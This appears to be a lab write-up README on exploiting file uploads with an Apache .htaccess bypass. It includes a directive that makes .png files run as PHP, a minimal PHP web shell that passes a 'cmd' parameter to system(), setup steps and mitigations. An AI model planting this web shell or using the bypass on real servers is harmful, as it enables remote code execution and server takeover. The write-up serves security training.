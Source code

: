 # 🛡️ File Upload Exploitation – Apache .htaccess Bypass

[![Lab Type](https://img.shields.io/badge/Lab-Web_Exploit-blue)](https://github.com/) 
[![Severity](https://img.shields.io/badge/Severity-High-red)](https://github.com/) 
[![RCE](https://img.shields.io/badge/RCE-Confirmed-brightgreen)](https://github.com/) 
[![PHP](https://img.shields.io/badge/Language-PHP-purple)](https://www.php.net/) 
[![Apache](https://img.shields.io/badge/Server-Apache-orange)](https://httpd.apache.org/) 
[![File Upload](https://img.shields.io/badge/Feature-File_Upload-yellow)](https://github.com/)  

---

## 📑 Table of Contents

1. [Overview](#overview)  
2. [Objective](#objective)  
3. [Vulnerability Description](#vulnerability-description)  
4. [Exploitation Steps](#exploitation-steps)  
5. [Proof of Concept](#proof-of-concept)  
6. [Mitigation](#mitigation)  
7. [References](#references)  

---

## Overview

This lab demonstrates a **file upload vulnerability** in a simulated web application. By exploiting weak validation, we are able to achieve **Remote Code Execution (RCE)** on an Apache server using an `.htaccess` bypass technique.

---

## Objective

- Understand file upload vulnerabilities  
- Learn how `.htaccess` can be abused to execute uploaded files  
- Practice safe exploitation in a controlled environment  

---

## Vulnerability Description

File upload functionality is often a critical entry point for attackers. 

In this lab:

- The web application **fails to properly validate file types**  
- Apache `.htaccess` files are **not restricted**, allowing uploaded files to execute as PHP scripts  
- This allows attackers to execute arbitrary code on the server  

---

## Exploitation Steps

1. Prepare the exploit files:  
   - `exploit.php` — the malicious PHP web shell  
   - `blank.png` — a harmless-looking image file to bypass file type restrictions  
2. Upload `blank.png` to test the upload functionality  
3. Upload `exploit.php` disguised as an allowed file  
4. Upload an `.htaccess` file to enforce PHP execution on disguised uploads:  

```apache
AddType application/x-httpd-php .png
````

5. Access the uploaded `exploit.php` via the browser to execute commands

---

##Proof of Exploit

<img width="958" height="1079" alt="image" src="https://github.com/user-attachments/assets/f7ed6996-fab0-4623-befd-5568eaeee4a0" />

---

## Proof of Concept

**exploit.php**:

```php
<?php
// Simple PHP web shell example
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```

Test the exploit:

```
docker run -d -p 8080:80 -v /path/to/uploads:/var/www/html php:8.2-apache
```

---

## Mitigation

* **Validate uploaded files**: restrict by MIME type and file extension
* **Rename uploaded files** and store outside web root
* **Disable `.htaccess` overrides** where not required
* **Use least privilege permissions** for upload directories

---

## References

* [PHP Official Documentation](https://www.php.net/)
* [Apache HTTP Server Documentation](https://httpd.apache.org/)
* [OWASP File Upload Cheat Sheet](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
